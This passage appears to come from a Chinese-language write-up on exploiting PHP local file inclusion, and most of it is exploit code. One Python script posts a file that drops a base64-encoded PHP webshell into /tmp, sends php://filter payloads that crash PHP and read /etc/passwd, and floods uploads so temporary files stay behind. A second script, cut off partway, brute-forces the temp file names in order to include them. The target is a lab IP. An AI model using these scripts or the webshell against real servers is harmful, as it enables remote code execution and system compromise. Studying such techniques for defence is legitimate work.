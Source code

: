[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/04/29/E3VzvD.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/04/26/EnhULF.png)

**payload2测试：**

[![](https://s2.ax1x.com/2019/04/26/EnhdZ4.png)](https://s2.ax1x.com/2019/04/26/EnhdZ4.png)

exp:

```
# -*- coding: utf-8 -*-
# php崩溃 生成大量临时文件

import requests
import string

def upload_file(url, file_content):
    files = `{`'file': ('daolgts.jpg', file_content, 'image/jpeg')`}`
    try:
        requests.post(url, files=files)
    except Exception as e:
        print e

charset = string.digits+string.letters
webshell = '&lt;?php eval($_REQUEST[daolgts]);?&gt;'.encode("base64").strip()
file_content = '&lt;?php if(file_put_contents("/tmp/daolgts", base64_decode("%s")))`{`echo "success";`}`?&gt;' % (webshell)

url="http://192.168.211.146/lfi.php"
parameter="file"
payload1="php://filter/string.strip_tags/resource=/etc/passwd"
payload2=r"php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA"
lfi_url = url+"?"+parameter+"="+payload1
length = 6
times = len(charset) ** (length / 2)
for i in xrange(times):
    print "[+] %d / %d" % (i, times)
    upload_file(lfi_url, file_content)
```

### <a class="reference-link" name="%E7%88%86%E7%A0%B4tmp%E6%96%87%E4%BB%B6%E5%90%8D"></a>爆破tmp文件名

然后爆破临时文件名来包含

```
# -*- coding: utf-8 -*-
import requests
import string

charset = string.digits + string.letters
base_url="http://192.168.211.146/lfi.php"
parameter="file"

for i in charset:
    for j in charset:
        for k in charset:
            for l in charset:
                for m in charset:
                    for n in charset:
                        filename = i + j + k + l + m + n
```